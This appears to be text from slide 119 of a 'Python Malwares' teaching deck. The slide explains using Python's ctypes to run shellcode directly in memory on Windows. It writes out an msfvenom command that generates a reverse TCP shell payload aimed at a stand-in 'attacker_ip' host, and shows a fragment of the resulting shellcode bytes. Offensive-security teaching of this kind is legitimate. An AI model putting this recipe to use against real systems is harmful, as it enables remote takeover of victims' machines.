

Python Malwares
Running Shellcode With ctypes
ctypes is a library that can be used to call functions that are available in native DLL libraries (e.g., kernel32.dll)
It also provides a C compatible data types.
We can use ctypes module to execute any shellcode directly in memory.
We will use ctypes to call functions located in Windows native libraries to copy and execute our shellcode in memory.

First, we will create our script shellcode1.py and import ctypes:
import ctypes
Next, we will create our shellcode using msfvenom:
$ msfvenom -f python -p windows/x64/shell_reverse_tcp LHOST=attacker_ip LPORT=9999 -v shellcode
shellcode =  b""
...
shellcode += b"\x6f\x6a\x00\x59\x41\x89\xda\xff\xd5"
We will copy the generated shellcode into our script.
119